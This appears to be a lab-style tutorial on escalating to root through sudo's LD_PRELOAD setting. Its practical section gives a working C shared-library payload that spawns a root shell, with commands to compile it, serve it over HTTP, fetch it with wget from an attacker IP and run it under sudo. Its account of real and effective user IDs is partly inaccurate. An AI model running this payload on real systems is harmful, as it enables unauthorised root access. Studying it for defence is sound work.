 # Background on Sudo

Sudo allows access to restricted files by temporarily elevating the privileges of the user to the `root` user. Sudo was introduced as a safer way to elevate privileges by mitigating the risks associated with unrestricted access to the root account by only executing the command as the root user.

For users to use the `sudo` command, they must be in the sudoers file located at /etc/sudoers. To edit the sudoers file, you should use the following command to open the file with 'visudo' which parses the file for syntax errors.
```
sudo visudo
```

To add or remove accounts from the sudoers file, the user has to be in the sudo group which can be arranged by using the command:

```
sudo usermod -aG sudo [username]
```

You can check your user's privileges by running the command: `sudo -l`

```
Matching Defaults entries for kayem on kali:
    env_reset, env_keep+=LD_PRELOAD

User kayem may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

`env_reset` is an option that defaults environment variables before running the command as root, unless the environment variable is added to the list of preserved variables with the `env_keep` option. In the example above, we can see that the `LD_PRELOAD` environment variable is retained when resetting the environment.

To restrict `LD_PRELOAD` from loading in arbitrary shared libraries, dynamic linkers ignore the environment variable if the real user ID (ruid) is different to the effective user ID (uid). The real user ID represents the user who executed the sudo command and the effective user ID represents the user ID under which the process is running. For instance, when running processes with sudo, the ruid will be 1000 but the uid will be 0 (root) so the environment variable will be ignored. 

# Practical

Using the `sudo -l` command, I discover that the user `kayem` has access to three programs: find, less, and nano. We can abuse the `LD_PRELOAD` environment variable by uploading the following C program to spawn a root shell.

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
The program can then be compiled into an object file with the following gcc command:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Once compiled, we can host a python3 HTTP server to transfer the object file from our machine to the target machine. We can start an HTTP server with the command:
```
sudo python3 -m http.server 8000
```
And download the file on our target machine.
```
wget http://[IP address]:8000/shell.so
```

Finally, we run the following command to spawn our root shell.

```
sudo LD_PRELOAD=/home/kayem/shell.so find
```

This command runs the "find" program with sudo rights so thus the whole command is run with sudo rights and then the LD_PRELOAD environmental variable is set to the specified path.
